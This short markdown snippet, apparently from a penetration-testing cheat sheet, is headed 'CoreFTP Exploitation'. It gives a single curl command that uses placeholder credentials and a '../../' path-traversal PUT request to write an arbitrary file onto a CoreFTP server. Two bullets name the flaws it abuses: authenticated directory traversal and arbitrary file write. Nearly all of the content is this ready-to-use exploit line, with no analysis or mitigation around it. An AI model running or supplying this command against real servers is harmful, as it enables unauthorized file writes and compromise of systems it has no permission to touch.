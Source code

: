 
CoreFTP Exploitation
```shell-session
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

- Authenticated directory/path traversal
- Arbitrary file write